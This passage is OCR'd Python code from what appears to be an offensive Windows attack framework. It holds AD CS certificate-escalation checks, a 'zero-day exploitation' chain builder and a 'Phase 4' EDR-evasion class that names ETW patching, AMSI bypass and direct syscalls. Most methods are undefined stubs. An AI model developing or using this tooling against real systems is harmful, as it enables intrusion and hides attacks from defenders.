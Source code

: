 ```python
        # ESC2 - ENROLLEE_SUPPLIES_SUBJECT
        if esc2_templates := self.find_esc2_templates():
            escalation_paths.append(("ESC2", esc2_templates))
        
        # ESC3 - Certificate Request Agent
        if esc3_templates := self.find_esc3_templates():
            escalation_paths.append(("ESC3", esc3_templates))
        
        # ESC4 - Write to Certificate Template
        if esc4_templates := self.find_esc4_templates():
            escalation_paths.append(("ESC4", esc4_templates))
        
        # ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2
        if self.check_esc6_vulnerability():
            escalation_paths.append(("ESC6", "EDITF_ATTRIBUTESUBJECTALTNAME2 enabled"))
        
        return escalation_paths

class ZeroDayExploitationFramework:
    """Framework for exploiting unpatched vulnerabilities"""
    
    def check_system_vulnerabilities(self, target_system):
        """Comprehensive vulnerability assessment"""
        vuln_checks = {
            "windows_versions": self.check_windows_build(),
            "patch_level": self.check_patch_status(),
            "third_party": self.check_third_party_software(),
            "services": self.check_vulnerable_services()
        }
        
        return self.prioritize_exploits(vuln_checks)
    
    def exploit_chain_builder(self, vulnerabilities):
        """Build exploit chains for maximum reliability"""
        for vuln_chain in self.generate_exploit_chains(vulnerabilities):
            if self.test_exploit_chain(vuln_chain):
                return self.execute_exploit_chain(vuln_chain)
```

## Phase 4: Enhanced Defense Evasion - Advanced Techniques

### Advanced Anti-Forensics and EDR Evasion
```python
class AdvancedEDREvasion:
    def __init__(self):
        self.edr_bypass_techniques = [
            "direct_syscalls",
            "return_address_spoofing",
            "stack_spoofing",
            "etw_patching",
            "amsi_bypass"
        ]
    
    def execute_stealthy_payload(self, payload):
        """Execute payload with multiple EDR evasion techniques"""
        # 1. Patch ETW for .NET
        self.patch_etw()
        
        # 2. Bypass AMSI for PowerShell
        self.bypass_amsi()
        
        # 3. Use direct syscalls to avoid user-mode hooks
```